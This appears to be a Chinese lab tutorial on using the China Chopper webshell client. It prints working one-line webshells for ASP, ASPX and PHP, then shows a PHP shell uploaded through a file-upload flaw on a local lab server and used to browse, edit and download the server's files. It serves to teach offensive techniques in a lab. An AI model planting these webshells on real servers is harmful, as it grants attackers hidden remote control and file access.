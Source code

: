 ```yaml
---
title: 中国菜刀配合一句话木马基本使用
date: 2021-12-27 15:48:22
tags: 
- 木马
- 一句话
---
```


## 中国菜刀配合一句话木马基本使用

目的：
* 学习一句话木马
* 学习菜刀的使用

原理：
菜刀的主要功能是用来连接一句话木马的，asp、aspx、php的一句话菜刀都可以连，只是这几种一句话语句不一样。

* asp的一句话是：`<%eval request(“pass”)%>`

* aspx的一句话是：`<%@ Page Language=”Jscript”%><%eval(Request.Item["pass"],”unsafe”);%>`

* php的一句话是：`<?php @eval($_POST['pass']);?>`

过程：

* 打开火狐，http://192.168.1.3:8080/up，打开文件上传漏洞演示脚本，点击中国菜刀连接一句话木马![image-20211228105130236](https://gitee.com/oxchang/img-host/raw/master/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105130236.png)

* 点击浏览，上传php文件，木马地址为http://192.168.1.3:8080/up/images/lubr.php![image-20211228105156422](https://gitee.com/oxchang/img-host/raw/master/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105156422.png)

* 打开中国菜刀

* 添加木马地址，密码为lubr，脚本类型php(eval)![image-20211228105329855](https://gitee.com/oxchang/img-host/raw/master/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105329855.png)

* 添加到主界面![image-20211228105353101](https://gitee.com/oxchang/img-host/raw/master/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105353101.png)

* 右键文件管理，即可查看目标服务器的完整目录，也可进行创建文件，修改文件，修改和下载等相关操作![image-20211228105418680](https://gitee.com/oxchang/img-host/raw/master/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105418680.png)

* 右键单击浏览网站，即可实现浏览器功能，浏览该站点![image-20211228105439630](https://gitee.com/oxchang/img-host/raw/master/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E9%85%8D%E5%90%88%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8/image-20211228105439630.png)




